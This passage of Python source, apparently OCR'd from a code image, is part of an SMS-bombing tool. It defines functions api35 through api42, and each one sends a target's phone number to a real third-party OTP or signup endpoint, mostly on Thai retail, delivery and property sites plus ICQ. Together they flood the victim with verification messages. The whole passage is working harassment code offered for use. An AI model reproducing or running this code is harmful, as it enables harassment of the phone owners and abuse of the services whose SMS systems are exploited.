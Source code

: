              data={"phone_number": phone})

    def api35(phone):

        post("https://www.carsome.co.th/website/login/sendSMS",

             headers=header, json={"username": phone, "optType": 0}).json()

    def api36(phone):

        post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.684", headers=header,

             json={"lang": "th", "userType": "BUYER", "locale": "th", "orgIdfier": "scg", "phone": phone, "type": "signup", "otpTemplate": "buyer_signup_otp_message", "userParams": {"buyerName": "ฟงฟง ฟงฟว"}})

    def api37(phone):

        post("https://u.icq.net/api/v65/rapi/auth/sendCode", json={"reqId": "39816-1633012470", "params": {

             "phone": phone, "language": "en-US", "route": "sms", "devId": "ic1rtwz1s1Hj1O0r", "application": "icq"}})

    def api38(phone):

        post("https://api.1112delivery.com/api/v1/otp/create",

             data={'phonenumber': phone, 'language': "th"})

    def api39(phone):

        post("https://gccircularlivingshop.com/sms/sendOtp",

             json={"grant_type": "otp", "username": phone, "password": "", "client": "ecommerce"}, headers={})

    def api40(phone):

        headers = {

            "organizationcode": "lifestyle",

            "content-type": "application/json"

        }

        json = {"operationName": "sendOtp", "variables": {"input": {"mobileNumber": phone, "phoneCode": "THA-66"}},

                "query": "mutation sendOtp($input: SendOTPInput!) {\n  sendOTPRegister(input: $input) {\n    token\n    otpReference\n    expirationOn\n    __typename\n  }\n}\n"}

        post("https://graph.firster.com/graphql", headers=headers, json=json)

    def api41(phone):

        post("https://m.riches666.com/api/register-otp",

             data={"brands_id": "60a6563a232a600012521982", "agent_register": "60a76a7f233d2900110070e0", "tel": phone})

    def api42(phone):

        post("https://www.pruksa.com/member/member_otp/re_create",

             headers=header, data=f"required=otp&mobile={phone}")
